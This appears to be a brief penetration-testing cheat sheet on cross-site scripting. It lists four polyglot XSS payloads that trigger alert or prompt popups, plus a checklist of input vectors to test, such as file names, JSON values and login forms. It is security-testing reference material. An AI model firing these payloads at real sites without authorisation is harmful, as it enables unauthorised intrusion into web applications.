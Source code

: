 <!-- TITLE: 01 Cross Site Scripting (XSS) -->
<!-- SUBTITLE: A quick summary of Cross Site Scripting (XSS) -->

# WAPT5.1 - Cross Site Scripting (XSS)

Does the page reflect any user inputs back into the page or source code after submission?

If so it could be subject to XSS.

# XSS Polyglot Payloads

## Payload #1

```text
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

## Payload #2

```text
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

## Payload #3

```text
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

## Payload #4

```text
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

# Input Vectors

* Customizable Themes & Profiles via CSS
* Event or meeting names
* URI based
* Imported from a 3rd party \(think Facebook integration\)
* JSON POST Values \(check returning content type\)
* File Upload names
* Uploaded files \(swf, HTML, ++\)
* Custom Error pages
* Fake params - ?realparam=1&foo=bar’+alert\(/XSS/\)+’
* Login and Forgot password forms

# Resources

* x
